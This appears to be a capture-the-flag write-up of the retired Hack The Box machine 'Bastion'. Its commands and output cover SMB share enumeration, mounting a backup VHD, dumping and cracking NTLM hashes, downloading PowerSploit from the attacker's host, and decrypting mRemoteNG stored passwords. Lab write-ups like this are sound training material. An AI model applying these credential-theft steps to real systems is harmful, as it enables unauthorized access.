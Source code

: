 ```yaml
---
layout: post
title:  "HTB - Bastion"
date:   2019-09-06 20:00 +0100
tags: writeups
---
```

Writeup for the retired HTB machine Bastion  
Link: https://www.hackthebox.eu/home/machines/profile/186  
IP: 10.10.10.134

<!--more-->

## Recon

```
PORT    STATE SERVICE
22/tcp  open  ssh
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

## SMB
The host has anonymous SMB with disabled message signing, so let's have a look at that.  
Let's begin with some recon:  
`msf5 > use auxiliary/scanner/smb/pipe_auditor`  
This yields some interesting endpoints: 
```
[+] 10.10.10.134:445      - Pipes: \netlogon, \lsarpc, \samr, \atsvc, \epmapper, \eventlog, \InitShutdown, \lsass, \LSM_API_service, \ntsvcs, \protected_storage, \scerpc, \srvsvc, \trkwks, \W32TIME_ALT, \wkssvc

```
`msf5 > use auxiliary/scanner/smb/smb_enumshares`
```
[-] 10.10.10.134:139      - Login Failed: Unable to Negotiate with remote host
[+] 10.10.10.134:445      - ADMIN$ - (DISK) Remote Admin
[+] 10.10.10.134:445      - Backups - (DISK) 
[+] 10.10.10.134:445      - C$ - (DISK) Default share
[+] 10.10.10.134:445      - IPC$ - (IPC) Remote IPC
```
So let's look into the shares.
First, let's mount the Backups share:  
`sudo mount -t cifs -o user=guest //10.10.10.134/Backups /mnt/`
There's a Backup of a full client machine at `WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351`.  
Could be worth a shot for NTLM hashes :3


## The Backup
So copy that VHD (in case someone resets the box while you're snooping around) and mount it with  
`sudo guestmount -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -i --ro /mnt/guest/`

Next up: dumping the NTHash for the user. That can be done by copying SAM and SYSTEM from `C:\Windows\system32\config\`  
and then calling pwdump on it:  
```
apalax@raudfjorden:~/writeups/HTB/Labs/Bastion$ pwdump SYSTEM SAM 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

```
The syntax for these hashes is `username:id:LM-Hash:NT-Hash`. Let's try them by throwing these into `hashes.txt` and feeding it to john:  
```
john --format=nt hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
bureaulampje     (L4mpje)
2g 0:00:00:00 DONE (2019-09-05 19:36) 2.222g/s 10439Kp/s 10439Kc/s 10444KC/s burg772v..burdy1
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```
So it seems we have a user login / password combination.  
If we connect via SSH, we're dropped into a CMD (?).  
`user.txt` can be found at the desktop and printed with `type user.txt`.


## Road to root
Basically, I'm following this article: https://www.fuzzysecurity.com/tutorials/16.html    
We're making use of Matt Graebers excellent tool, Powersploit. 

Get PowerSploit
`wget http://10.10.15.195:8000/PowerSploit-3.0.0.zip -OutFile ps.zip`
In more detail, PowerUp. So download the Privesc folder into the PS Module path, import the module and fire away!  
```
Import-Module Privesc
Get-Command -Module Privesc
    <available commands>
Invoke-AllChecks
    <stuff stuff>
    (...)

[*] Checking %PATH% for potentially hijackable .dll locations...                                           


HijackablePath : C:\Users\L4mpje\AppData\Local\Microsoft\WindowsApps\                                      
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Users\L4mpje\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll' -Command '...'    
```
Not working?

Poking around shows an SSH config file with this: 
```
Match Group administrators                                                                       
       AuthorizedKeysFile __PROGRAMDATA__/ssh/administrators_authorized_keys 
```
unfortunately, we don't have write access to that folder as user, so keep looking!

### Ze RemoteNG?!
Poking around more reveals mRemoteNG, which seems off. Googling around reveals that it suffers from insecure password storage.  
So let's grab the connection.xml:
```
PS C:\Users\L4mpje\AppData\Roaming\mRemoteNG> type .\confCons.xml
```
We try to decrypt it with [mremoteng-decrypt](https://github.com/haseebT/mRemoteNG-Decrypt).  
This is done by providing the decrypter the administrator password hash:  
```
python mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" 
Password: thXLHM96BeKL0ER2
```

So this is root! Connect, `cd` to Desktop and `type root.txt`. Fun box, but root and Windows enum took me a while.

